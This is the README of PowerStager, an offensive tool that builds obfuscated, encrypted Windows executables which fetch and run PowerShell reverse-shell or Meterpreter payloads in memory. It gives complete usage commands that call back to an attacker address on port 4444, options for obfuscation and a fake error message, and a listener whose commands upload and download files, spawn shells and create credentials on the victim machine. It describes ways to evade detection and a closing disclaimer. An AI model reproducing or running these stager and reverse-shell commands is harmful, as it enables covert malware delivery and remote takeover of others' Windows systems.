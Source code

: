 !!! I'm looking for a new maintainer for PowerStager !!!
========================================================
I currently lack the time and interest to continue this "project". PowerStager 
was initially developed just for proving a point to my previous employer, but 
it has since been used by others. If there is any interest out there to 
continue and take over maintaining PowerStager send me an email at 
chris@noxz.tech.

PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

Demo
----
[![powerstager demo](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/Tfzr "powerstager demo - Click to Watch!")

How to use
----------

Prerequisites:

	python3
	python3-setuptools
	i686-w64-mingw32-gcc
	x86_64-w64-mingw32-gcc
	i686-w64-mingw32-windres
	x86_64-w64-mingw32-windres
	
Prerequisites (python3 modules):

	os
	sys
	getopt
	glob
	socket
	fcntl
	errno
	string
	re
	random
	base64
	datetime
	time
	hashlib
	readline
	signal
	urllib
	names

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a reverse shell payload to upload:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded reverse shell payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate a meterpreter payload to upload:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded meterpreter payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate an embedded custom payload:

	powerstager --target win64 \
	--path input.ps1
	--output out.exe

Open a reverse shell listener:

	powerstager --listener \
	--lport 4444

Reverse shell listener commands:
* Local-Invoke

  *Invokes powershell script files from host*

* Local-Import-Module

  *Imports powershell modules from host*

* Local-Set-Width

  *Changes the buffer width on remote client*

* Local-Upload

  *Uploads files from host*

* Local-Download

  *Downloads files from client*

* Local-Download-Commands

  *Downloads available powershell commands from client*

* Local-Enumerate-System

  *Runs enumeration scripts on client*

* Local-Check-Status

  *Collects user and privilage status from client*

* Local-Spawn-Meterpreter

  *Spawns meterpreter shells on client*

* Local-Spawn-Reverse-Shell

  *Spawns reverse shells on client*

* Local-Credential-Create

  *Creates credentials on client*

* Local-Credential-List

  *Lists created credentials on client*


## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
